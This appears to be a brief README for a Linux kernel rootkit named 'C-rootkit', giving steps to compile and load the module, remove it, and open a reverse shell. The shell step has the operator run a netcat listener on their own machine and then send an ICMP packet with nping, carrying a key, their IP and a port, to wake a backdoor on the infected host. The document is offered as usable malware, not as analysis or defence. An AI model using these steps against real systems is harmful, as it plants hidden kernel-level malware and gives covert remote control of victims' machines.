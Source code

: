 C-rootkit

##to compile:
make

##to load the kernel module:
./load_module.sh

##to unload the kernel module:
./cleanup.sh

##to connect to reverse shell:
on your machine: nc -lvvnp [port]
sudo nping --icmp -c 1 -dest-ip [destination ip] --data-string '[KEY] [your ip] [port]'

